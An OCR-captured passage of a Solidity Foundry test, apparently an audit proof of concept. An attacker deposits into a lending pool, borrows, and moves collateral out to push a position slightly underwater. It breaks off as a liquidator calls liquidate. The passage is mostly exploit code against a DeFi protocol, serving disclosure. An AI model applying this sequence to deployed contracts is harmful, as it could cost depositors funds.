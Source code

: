 ```solidity
         */

        logPoolData(vicPoolId, attPosition);

        vm.startPrank(attacker);
        borrowAsset.approve(address(pool), amountOfAsset/5);
        pool.deposit(vicPoolId, amountOfAsset/5, attacker);
        vm.stopPrank();

        logPoolData(vicPoolId, attPosition);

        vm.startPrank(attacker);
        data = abi.encodePacked(vicPoolId, amountOfAsset/100);
        action = Action({ op: Operation.Borrow, data: data });
        positionManager.process(
            attPosition,
            action
        );
        borrowAsset.transfer(attPosition, amountOfAsset/50);
        vm.stopPrank();

        logPoolData(vicPoolId, attPosition);

        (uint256 totalAssetValue, uint256 totalDebtValue, uint256 minReqAmount) = RiskModule(riskEngine.riskModule()).getRiskData(attPosition);
        
        console2.log(totalAssetValue);
        console2.log(totalDebtValue);
        console2.log(minReqAmount);

        uint256 amountOfCollateralToTransfer = collateralAsset.balanceOf(attPosition) * (totalAssetValue - minReqAmount)/totalAssetValue + 10;

        vm.prank(address(positionManager));
        Position(payable(attPosition)).transfer(address(0), address(collateralAsset), amountOfCollateralToTransfer); // 1- Gets the position slightly underwater

        (totalAssetValue, totalDebtValue, minReqAmount) = RiskModule(riskEngine.riskModule()).getRiskData(attPosition);

        {
            console2.log(totalAssetValue);
            console2.log(totalDebtValue);
            console2.log(minReqAmount);
        }

        // Liquidator

        DebtData[] memory debts = new DebtData[](1);
        AssetData[] memory assets = new AssetData[](1);
        {
            DebtData memory debtData = DebtData({ poolId: vicPoolId, amt: totalDebtValue }); // Works since the asset is 1:1 with ETH according to test oracles
            debts[0] = debtData;
            AssetData memory assetData = AssetData({ asset: address(collateralAsset), amt: totalAssetValue }); // Works since the asset is 1:1 with ETH according to test oracles
            assets[0] = assetData;
        }

        vm.startPrank(liquidator);
        borrowAsset.approve(address(positionManager), type(uint256).max);
        collateralAsset.approve(address(positionManager), type(uint256).max);
        positionManager.liquidate(
```